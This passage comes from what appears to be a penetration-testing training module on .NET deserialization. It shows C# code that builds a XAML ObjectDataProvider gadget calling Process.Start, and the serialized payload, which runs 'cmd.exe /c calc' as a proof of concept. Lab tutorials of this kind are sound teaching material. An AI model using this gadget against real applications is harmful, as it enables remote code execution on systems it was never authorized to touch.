 We are not able to serialize `MethodParameters`, so we need to find another way to pass the parameters to `Process.Start`. Luckily for us, `ObjectDataProvider` has another field called `ObjectInstance` which we can set to an existing `Process` object. `Process` objects have a field called `StartInfo`, which is of type `ProcessStartInfo`. This allows us to specify the `FileName` and `Arguments` in a manner that can be serialized. So let's rewrite the code like this:

```csharp
using System;
using System.Diagnostics;
using System.Windows.Data;
using System.Windows.Markup;

namespace TeeImportExploit
{
    internal class Program
    {
        static void Main(string[] args)
        {
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "C:\\Windows\\System32\\cmd.exe";
            psi.Arguments = "/c calc";

            Process p = new Process();
            p.StartInfo = psi;

            ObjectDataProvider odp = new ObjectDataProvider();
            odp.ObjectInstance = p;
            odp.MethodName = "Start";

            string xaml = XamlWriter.Save(odp);
            Console.WriteLine(xaml);
        }
    }
}

```

This time, when we run the program the calculator will spawn again and the output will be much longer. Most importantly, the file name and arguments are included in the serialized output.

![image](https://academy.hackthebox.com/storage/modules/240/3/28.png)

Let's take a closer look at the `XAML` output and clean up any unnecessary information.

```xml
<ObjectDataProvider MethodName="Start" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:sc="clr-namespace:System.Collections;assembly=mscorlib" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml">
    <ObjectDataProvider.ObjectInstance>
        <sd:Process>
            <sd:Process.StartInfo>
                <sd:ProcessStartInfo Arguments="/c calc" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null}" UserName="" Password="{x:Null}" Domain="" LoadUserProfile="False" FileName="C:\Windows\System32\cmd.exe">
                    <sd:ProcessStartInfo.EnvironmentVariables>
                        <SNIP>
                    </sd:ProcessStartInfo.EnvironmentVariables>
                </sd:ProcessStartInfo>
            </sd:Process.StartInfo>
        </sd:Process>
    </ObjectDataProvider.ObjectInstance>
</ObjectDataProvider>

```
